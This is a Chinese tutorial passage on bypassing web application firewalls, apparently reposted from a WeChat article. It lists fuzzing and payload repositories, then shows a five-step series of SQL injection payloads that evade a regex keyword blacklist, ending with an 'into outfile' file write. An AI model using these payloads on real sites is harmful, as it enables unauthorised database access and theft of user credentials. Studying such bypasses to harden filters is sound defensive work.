 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JkzwNUAQro5bJXKt5WWVOA)

### **0X00    Fuzz / 爆破**  

**fuzz 字典**

**1.Seclists/Fuzzing**

https://github.com/danielmiessler/SecLists/tree/master/Fuzzing

**2.Fuzz-DB/Attack**

https://github.com/fuzzdb-project/fuzzdb/tree/master/attack

**3.Other Payloads 可能会被 ban ip，小心为妙。**

https://github.com/foospidy/payloads

### **0X01    正则绕过**

多少 waf 使用正则匹配。

#### 黑名单检测 / bypass

**Case**: SQL 注入

##### • Step 1:

```
过滤关键词: and, or, union可能正则: preg_match('/(and|or|union)/i', $id)被拦截的语句: union select user, password from usersbypass语句: 1 || (select user from users where user_id = 1) = 'admin'
```

• Step 2:

```
过滤关键词: and, or, union, where被拦截的语句: 1 || (select user from users where user_id = 1) = 'admin'bypass语句: 1 || (select user from users limit 1) = 'admin'
```

• Step 3:

```
过滤关键词: and, or, union, where, limit被拦截的语句: 1 || (select user from users limit 1) = 'admin'bypass语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'
```

• Step 4:

```
过滤关键词: and, or, union, where, limit, group by被拦截的语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'bypass语句: 1 || (select substr(group_concat(user_id),1,1) user from users ) = 1
```

• Step 5:  

```
过滤关键词: and, or, union, where, limit, group by, select被拦截的语句: 1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1bypass语句: 1 || 1 = 1 into outfile 'result.txt'bypass语句: 1 || substr(user,1,1) = 'a'
```
